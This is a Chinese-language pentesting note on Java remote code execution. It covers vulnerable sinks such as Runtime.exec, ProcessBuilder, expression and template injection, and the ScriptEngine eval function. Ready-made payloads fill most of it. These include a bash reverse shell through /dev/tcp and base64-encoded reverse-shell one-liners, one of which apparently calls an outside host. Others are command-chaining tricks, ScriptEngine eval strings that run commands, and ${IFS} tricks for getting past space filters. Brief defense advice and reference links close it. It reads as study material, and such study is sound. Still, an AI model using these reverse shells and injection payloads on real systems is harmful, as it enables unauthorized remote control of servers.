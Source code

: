 场景：
  1、服务端直接存在可执行函数（ProcessBuilder()、exec()等）,且对传入的参数过滤不严格导致RCE漏洞。
  2、由表达式注入导致的RCE漏洞，如：OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等。
  3、由java后端模板引擎SSTI注入导致的RCE漏洞，如：Freemarker、Velocity、Thymeleaf等。
  4、由java一些脚本语言引起的RCE漏洞，如：Groovy、JavascriptEngine等。
  5、由第三方开源组件引起的RCE漏洞，如：Fastjson、Shiro、Xstream、Struts2等。
  6、关键词：ProcessBuilder、start、Runtime、getRuntime、exec等。    
危害：远程代码执行、远程命令执行、写入木马等。
防御：过滤用户可控的参数，升级组件版本或更换等。

^
## **原生命令执行**
原生命令执行的方式有两种：
第一种：
```
Runtime.getRuntime().exec("cmd /c ping 127.0.0.1 && dir");
//有/c或者linux的-c参数就可以命令拼接。c告诉cmd.exe 执行字符串指定的命令。
//exec()可以接收字符串，以及字符串数组等。
```


注意java这里反弹shell需要改良

```
Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");

bash -i >& /dev/tcp/ip/port 0>&1 需要base64编码再执行下面：

bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjkyLjg4LjI0Ny8yMzMzIDA+JjE=" | base64 -d | bash -i
```


第二种：
```
new ProcessBuilder("calc").start();
ProcessBuilder("ping", ip);  //这里的ip无法拼接命令。
当ProcessBuilder("cmd", "/c", "dir && calc");//时，这里可以拼接命令。
ProcessBuilder("cmd", "/c", "ping",ip);

注意在get请求中不要用&&作为拼接符号，用||前报错后执行。
```

^
## **利用JS引擎ScriptEngineManager代码执行**
在爬虫中常常用python实现远程执行js代码。
在java中也可以js代码，js如果可控，可能执行java对象代码。
>jdk17 ScriptEngineManager默认不在支持javascript，解决：
```
<dependency>
    <groupId>org.openjdk.nashorn</groupId>
    <artifactId>nashorn-core</artifactId>
    <version>15.3</version>
</dependency>
```
关键词：ScriptEngineManager
```
 // 创建一个 ScriptEngineManager 实例
        ScriptEngineManager manager = new ScriptEngineManager();

        // 通过 ScriptEngineManager 获取一个 JavaScript 引擎实例
        ScriptEngine engine = manager.getEngineByName("JavaScript");

        // 检查是否成功获取引擎
        if (engine != null) {
            System.out.println("JavaScript 引擎已成功加载。");
        } else {
            System.out.println("未能加载 JavaScript 引擎。");
        }

        try {
            String test = "var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec(\"calc\"); };";
// 若test可控，则代码执行
            engine.eval(test);
        }catch (Exception e){

        }
```
一句
```
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')");
```



^
## **拓展**
在java后台系统中工作流流程任务功能中，有的支持js脚本，就是这个实现的。
其实流程脚本任务不仅支持JS脚本，还支持Python，Groovy等脚本，其底层原理则是调用java中对应语言的解析函数，如JS脚本则是调用了ScriptEngine中的eval函数。据了解，流程引擎还支持表达式解析，所以该组件还存在其它的注入可能，以上仅对脚本注入的攻击形式进行了简单的探讨。这样的漏洞适用于几乎所有集成流程管理功能的系统，比如若依、Guss等系统均存在此类问题。
执行python：<https://blog.csdn.net/anlegor/article/details/44086367>


PS：Flowable 工作流引擎支持多种脚本语言，Flowable 原生支持 JavaScript、Groovy 和 JUEL，可以也试试python，而java11以上又默认不支持JavaScript，考虑Groovy和JUEL。



^
# 替换空格，绕过StringTokenizer

Linux下使用： ${IFS} 、 $IFS$9 windows下使用： %IFS% 、 %IFS%9

# criptEngineManager 参考文档

<https://xz.aliyun.com/t/8567?time__1311=n4%2BxnD0DcDuD907GkWD%2Fia%2BeYqhjrCQWiSReD>

# Groovy代码注入

<https://xz.aliyun.com/t/8231?time__1311=n4%2BxnD0Dc7eYuxmqGNnmDUx%2FRKDtKD9ACoD>

# scriptengine任意命令执行

<https://github.com/yzddmr6/Java-Js-Engine-Payloads?tab=readme-ov-file#js%E5%8A%A0%E8%BD%BD%E4%BB%BB%E6%84%8F%E5%AD%97%E8%8A%82%E7%A0%81>

# 实际案例

<https://github.com/JPressProjects/jpress/issues/171>

